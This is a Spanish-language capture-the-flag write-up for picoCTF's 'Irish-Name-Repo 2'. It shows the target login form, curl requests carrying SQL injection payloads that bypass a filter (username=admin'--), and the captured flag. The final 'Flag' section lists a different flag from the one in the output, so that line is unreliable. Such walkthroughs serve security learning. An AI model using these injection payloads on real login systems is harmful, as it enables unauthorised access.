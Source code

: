 # Irish-Name-Repo 2

## Objetivo

`https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

## Hints

The password is being filtered.

## Solución

### Solución 1
```
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
jessy_vl-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/53751/login.php --data "username=admin&password='+or+1=1--" && echo
<h1>SQLi detected.</h1>
jessy_vl-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/53751/login.php --data "username=admin'--&password=1" && echo
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>
jessy_vl-picoctf@webshell:~$ 

```

```
username: admin';
password: password
SQL query:
	SELECT * FROM users WHERE name 'admin' ; AND password='password'
```

```
</pre><h1>SQLi detected.</h1>jessy_vl-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=password&debug=1"
<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>jessy_vl-picoctf@webshell:~$ 
```

```
# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}
```

## Flag

picoCTF{ca1cu1at1ng_Mach1n3s_8028f}

## Notas adicionales

- La inyección SQL es una técnica de inyección de código que podría destruir su base de datos.
- La inyección SQL es la colocación de código malicioso en declaraciones SQL, a través de la entrada de una página web.
| Archivo | Descripción |
|------------|-------------|
| -d | Sirve para hacer un post    |
| & | Sirve para unir los campos   |

La inyección con la que se probo fue *'or 1=1;'* para el password, por lo cual no funciono.

## Referencias

[SQL INJECTION](https://www.w3schools.com/sql/sql_injection.asp)
